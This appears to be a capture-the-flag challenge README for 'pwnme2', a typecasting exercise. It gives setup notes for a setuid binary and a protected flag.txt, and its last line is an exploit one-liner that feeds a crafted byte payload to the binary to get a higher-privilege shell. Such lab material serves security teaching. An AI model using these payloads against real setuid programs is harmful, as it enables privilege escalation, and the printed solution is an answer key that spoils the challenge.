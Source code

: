 # Challenge: pwnme2

# Points: 50

# Description: 

Do you know typecasting?
Look at [this](./pwnme2) executable. 
[This](./pwnme2.c) is the sourcefile. 

# Hint: 

1. Read the sourcefile properly. 


NOTE FOR US:

NOTE TO US: 


2. While setting up, the user of **pwnme2** executable should be **pwnme2** it should be setuid to **pwnme2_pwn**. 

3. This is how convert pwnme2 into a setuid executable: 

a. Create 2 users with names **pwnme2** and **pwnme2_pwn**. . 
b. Change the owner of pwnme2-executable to **pwnme2_pwn** - chown pwnme2_pwn pwnme2
c. Change the group of pwnme2-executable to **pwnme2** - chgrp pwnme2 pwnme2
d. Set the setuid bit: chmod u+s pwnme2

So, a user with pwnme2 prvileges can also run executables with pwnme2_pwn(higher privileges) and get a shell with higher privileges to read **flag.txt** . 

4. There is a flag.txt with user **pwnme2_pwn** and group **pwnme2_pwn**. So, only with the shell with privileges **pwnme2_pwn**, one will be able to read flag.txt.

4. With tha flag.txt, the following should be done to ensure only **pwnme2_pwn** user is able to read it and no one else. 

$ sudo chmod 0400 flag.txt  - Damn Important because in normal cases, "others" are allowed to read files owned by higher-privilege-users but this should happne in our case. 

This is very very important!


./pwnme2 `python -c "print '\xdd\xb7\xd5\xdb\x57\xd7\x5f\x19' * 7 + '\xe4\xb7\xd5\xdb\x57\xd7\x5f\x19'"`
